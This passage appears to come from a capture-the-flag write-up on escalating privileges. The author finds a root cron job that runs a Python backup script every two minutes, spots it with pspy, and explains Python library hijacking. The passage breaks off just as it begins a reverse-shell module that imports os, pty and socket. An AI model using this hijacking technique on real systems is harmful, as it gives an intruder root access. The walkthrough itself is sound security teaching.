 def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

It looks like this script is taking a zip backup of some of the files on the target. By its self this doesn't do much, and we are unable to edit the file as it is owned by root.

![image](https://user-images.githubusercontent.com/104072961/164224437-5b4ff5bc-caf6-4c4c-ade4-2b088d5295e4.png)

However, straight away this makes me thing that there might be a cronjob or something running that will execute this periodically. Just based of the fact its taking a backup of something and owned by root. A tool I like to use to look at this kind of thing is called **[pspy](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.0)**

By hosting a quick python http server I am able to upload this to the target using **wget**.

![image](https://user-images.githubusercontent.com/104072961/164224468-fe5331a2-b4d6-4833-9bc7-76712e21b456.png)

Ensuring that we make the new binary executable using `chmod +x` the new program can be run. All this does is continually monitors the active processes so that if a command is run or process starts it is captured even if it closes or stops.

The output from **pspy** shows us there there is a job running. It runs every two minutes.

![image](https://user-images.githubusercontent.com/104072961/164224486-846611f5-e400-43c0-92fa-e02da18672f5.png)

Every two minutes Root is running the command:
```/bin/sh -c python3 /home/cameron/Documents/backup.py```

### Python library hijacking

After doing some research and trying to find away to exploit the information found above I cam across the concept of Python library hijacking. Essentially, at lest in this case, when a python script tries to import modules from the python library there are a list of directories it will check for those modules. The thing is it will check these in order. At the top of this list by default is the directory that the python script is being run from i.e. `/home/cameron/Docuements`.

If we can write a malicious python module with the same name in the directory that this script is being run from, when it runs it will run our script before trying to look any further.

>For some more information have a look at the following articles
>https://rastating.github.io/privilege-escalation-via-python-library-hijacking/
>https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8
>https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/

I pulled my malicious script straight from one of the articles above, all I needed to change was my ip address.

```
import os
import pty
import socket
